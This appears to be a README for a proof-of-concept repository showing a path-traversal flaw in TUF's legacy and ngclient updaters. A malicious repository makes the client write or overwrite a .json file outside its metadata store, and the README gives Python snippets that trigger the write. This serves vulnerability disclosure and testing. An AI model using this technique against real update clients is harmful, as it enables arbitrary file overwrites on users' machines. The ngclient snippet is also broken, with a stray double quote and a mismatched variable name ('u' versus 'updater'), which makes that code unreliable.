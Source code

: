 # TUF client metadata path-traversal proof of concept

This repository will fool both legacy updater and ngclient to write 
(overwrite) a file outside of the client metadata store when
`get_one_valid_targetinfo()` is called. For this specific example, the
file will be written one level above the metadata directory but likely
any arbitrary filepath (with .json extension) is possible.

### Examples assuming the repository root is hosted at `http://localhost:8000/`:

#### Legacy Updater
```python
# Directories ./metadata/current/ and ./metadata/previous/ must exist.
# Initial root must be in ./metadata/current/root.json.

import tuf.settings
from tuf.client.updater import Updater

tuf.settings.repositories_directory = "./"
repo_mirrors = {
    "mirror1": {
        "url_prefix": "http://localhost:8000",  "metadata_path": "", "targets_path": ""
    }
}
updater = Updater("", repo_mirrors)
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./metadata/current/ but ./metadata/ now contains
# path-traversal-test.json
```

#### ngclient Updater

```python
# Initial root must be in ./root.json.

from tuf.ngclient import Updater
u = Updater("./", ""http://localhost:8000/", "http://localhost:8000/")
updater.refresh()
updater.get_one_valid_targetinfo("any target name here")

# Local metadata dir is ./ but ../ now contains path-traversal-test.json
```
